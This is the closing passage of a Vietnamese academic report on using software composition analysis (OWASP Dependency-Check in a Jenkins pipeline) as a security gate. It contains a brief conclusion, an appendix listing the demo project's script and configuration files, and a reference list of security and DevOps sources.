**Đề tài đã chứng minh được quy trình kiểm tra bảo mật (Security Gate) bằng công cụ SCA có khả năng tự động rào chắn các lỗ hổng nghiêm trọng, giảm tải đáng kể nỗ lực đánh giá thủ công trong chuỗi cung ứng phần mềm.**

---

# PHỤ LỤC

Danh sách và đường dẫn kỹ thuật tới các tập tin mã nguồn hỗ trợ thiết lập quy trình tự động hóa trong dự án `devsecops-sca-demo`:

- `scripts\scan-vulnerable.ps1`: Kịch bản thiết lập quét tự động với cấu trúc mã dự án chứa thành phần lỗi thời.
- `scripts\scan-fixed.ps1`: Kịch bản tái thiết lập quét sau khi đã thực hiện cập nhật mã (remediation).
- `Jenkinsfile`: Cấu trúc khai báo lộ trình chạy đa tầng theo chuẩn định dạng Pipeline as Code.
- `pom.xml`: Khai báo thư viện phụ thuộc, cấu trúc ứng dụng và định nghĩa cài đặt Plugin OWASP Dependency-Check.

---

# TÀI LIỆU THAM KHẢO

1. NIST. *NIST Special Publication 800-204D: Strategies for the Integration of Software Supply Chain Security in DevSecOps CI/CD Pipelines*. Retrieved from https://csrc.nist.gov/
2. OWASP Foundation. *OWASP Dependency-Check Documentation and Implementation Guides*. Retrieved from https://jeremylong.github.io/DependencyCheck/
3. National Institute of Standards and Technology. *National Vulnerability Database (NVD) Data Feeds and API Documentation*. Retrieved from https://nvd.nist.gov/
4. Apache Software Foundation. *Apache Log4j Security Vulnerabilities and Mitigation Steps*. Retrieved from https://logging.apache.org/log4j/2.x/security.html
5. Spring Framework. *Spring Security Advisories and Remediation Updates*. Retrieved from https://spring.io/security/
6. Jenkins Project. *Jenkins User Handbook & Pipeline Documentation for Continuous Delivery*. Retrieved from https://www.jenkins.io/doc/
7. Apache Maven Project. *Maven Build Lifecycle and Plugin Configuration Documentation*. Retrieved from https://maven.apache.org/
8. The MITRE Corporation. *Common Vulnerabilities and Exposures (CVE) System Overview*. Retrieved from https://cve.mitre.org/
9. FIRST. *Common Vulnerability Scoring System (CVSS) Specification v3.1*. Retrieved from https://www.first.org/cvss/
10. SANS Institute. *Supply Chain Attacks and Security: Mitigation and Policy Guidelines*.
11. Microsoft Security Center. *DevSecOps in Windows Environments: Best Practices*.
12. GitLab Docs. *What is DevSecOps and the Shift-Left Security Paradigm?*.
13. Red Hat Enterprise. *Understanding Continuous Integration / Continuous Delivery Pipeline (CI/CD)*.
14. Sonatype. *State of the Software Supply Chain Report*.
15. Atlassian. *DevOps Principles vs DevSecOps Architecture*.
16. Palo Alto Networks. *What is Software Composition Analysis (SCA)?*.
17. Check Point Software Technologies. *Apache Log4j Vulnerability (Log4Shell) Deep Technical Analysis*.
18. Synopsys. *Managing Open Source Security with SCA Tools*.
19. Fortinet. *Residual Risks in Application Architectures*.
20. Docker Documentation. *Best Practices for Securing Container Build Pipelines*.
